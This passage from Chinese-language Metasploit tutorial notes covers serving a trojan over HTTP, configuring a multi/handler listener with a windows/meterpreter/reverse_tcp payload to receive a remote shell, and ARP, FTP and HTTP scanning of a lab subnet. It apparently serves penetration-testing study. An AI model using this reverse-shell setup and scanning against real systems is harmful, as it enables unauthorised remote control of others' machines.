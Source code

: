 python -m SimpleHTTPServer 80

3 配置监控程序我们使用了

use exploit/multi/handler

3 输入 options进入配置

3.1 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）

set lhost   ip

3.2然后我们配置了 lport  （指的是监控的端口 ）

set lport   ip

注意端口必须和msfvenom 生成的木马端口一样才行

4 配置攻击载荷 payload

set payload windows/meterpreter/reverse_tcp

5 执行利用等待目标机器执行木马

6 目标机器执行了木马

利用成功并获得meterpreter

---

5  后渗透利用

进入新文档

6  报告阶段

## 实战演练

首先使用msfconsole启动。

使用arp扫描模块来扫描内网，有哪些活着的主机。通过options可以查看该模块设置什么参数，yes代表必须输入的参数，但是有些yes带有默认值，则不是必须修改。设置扫描192.168.15.0网段活着的主机。

![image-20240916163457685](10-11  msfconsole漏洞利用流程/image-20240916163457685.png)	

最后发现有这么写主机。

![image-20240916163620548](10-11  msfconsole漏洞利用流程/image-20240916163620548.png)	

使用ftp模块去探测指定主机的ftp服务是否有开启，结果发现没有开启。

![image-20240916163827697](10-11  msfconsole漏洞利用流程/image-20240916163827697.png)	

使用http扫描模块，扫描该主机是否有http服务。

最终也没有扫描出来。

![image-20240916164025678](10-11  msfconsole漏洞利用流程/image-20240916164025678.png)	

而192.168.15.1被探测出有apache服务。
